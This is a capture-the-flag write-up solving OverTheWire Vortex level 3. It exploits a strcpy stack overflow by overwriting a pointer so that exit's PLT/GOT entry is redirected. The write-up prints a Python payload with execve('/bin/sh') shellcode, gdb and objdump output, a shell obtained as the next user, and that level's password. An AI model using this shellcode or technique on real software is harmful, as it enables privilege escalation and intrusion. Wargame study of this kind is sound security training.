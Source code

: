 ## Vortex Level 3 → Level 4
### A Stack Overflow with a Difference

Problem page: <http://overthewire.org/wargames/vortex/vortex3.html>


The exploitable part of this program is the `strcpy` which does not check the length of the data being copied, so if we pass in more data into the program we'll be able to overwrite the value of `lpp`, which is then conveniently dereferenced and set to point to the address of `buf`.

We've already dealt with finding the offset between things on the stack in gdb in Vortex Level 1, so we'll skip over that, with the following shellcode we only need to figure out where we need to point `lpp`.

In level 3 the program exits with `exit(0)`, rather than returning, so overwriting the return address would not work, we'll need to find another way, let's see how the call to `exit` works.

```console
vortex3@vortex:~$ objdump /vortex/vortex3 --disassemble-all --section=.plt | grep -A 3 exit
08048310 <exit@plt>:
 8048310:       ff 25 34 97 04 08       jmp    *0x8049734
 8048316:       68 10 00 00 00          push   $0x10
 804831b:       e9 c0 ff ff ff          jmp    80482e0 <_init+0x2c>
```

So we'll search for memory addresses containing `0x8049734` in the range of our program's memory

```console
vortex3@vortex:~$ readelf /vortex/vortex3 --sections
vortex3@vortex:/tmp/36$ readelf /vortex/vortex3 --sections
There are 30 section headers, starting at offset 0x8a8:

Section Headers:
[Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
[ 0]                   NULL            00000000 000000 000000 00      0   0  0
[ 1] .interp           PROGBITS        08048134 000134 000013 00   A  0   0  1
...
[25] .bss              NOBITS          0804974c 00074c 000004 00  WA  0   0  1
[26] .comment          PROGBITS        00000000 00074c 000056 01  MS  0   0  1
[27] .shstrtab         STRTAB          00000000 0007a2 000106 00      0   0  1
[28] .symtab           SYMTAB          00000000 000d58 000460 10     29  45  4
[29] .strtab           STRTAB          00000000 0011b8 00026b 00      0   0  1
```

We'll search the memory with `gdb`

```console
vortex3@vortex:/tmp/36$ env TERM=screen-256color gdb --args /vortex/vortex3 `cat pl.txt`
Reading symbols from /vortex/vortex3...(no debugging symbols found)...done.
(gdb) start
Temporary breakpoint 1, 0x08048430 in main ()
(gdb) find 0x8048134,0x804974c,0x8049734
0x80482a4
0x8048312 <exit@plt+2>
0x80492a4
0x8049312
4 patterns found.
```

Okay, we have enough info for our exploitative input now.

```python
import sys

sys.stdout.write("\xeb\x2b\x5e\x31\xc0\xb0\x46\x31\xdb\x66\xbb\xfa\x01\x31\xc9\x66" +     #Shellcode
                 "\xb9\xfa\x01\xcd\x80\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89" +
		 "\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x31\xd2\xcd\x80\xe8\xd0\xff\xff" +
		 "\xff\x2f\x62\x69\x6e\x2f\x73\x68\xff\xff\xff" +
		 "\x90"*72 +                                                              # Distance to lpp
		 "\x12\x93\x04\x08")                                                      # .got address
```

Let's see if this works out (it does, I checked before writing this).

```console
vortex3@vortex:/tmp/36$ /vortex/vortex3 `python script.py`
$ whoami
vortex4
$ cat /etc/vortex_pass/vortex4
2YmgK1=jw
```

On to level 4
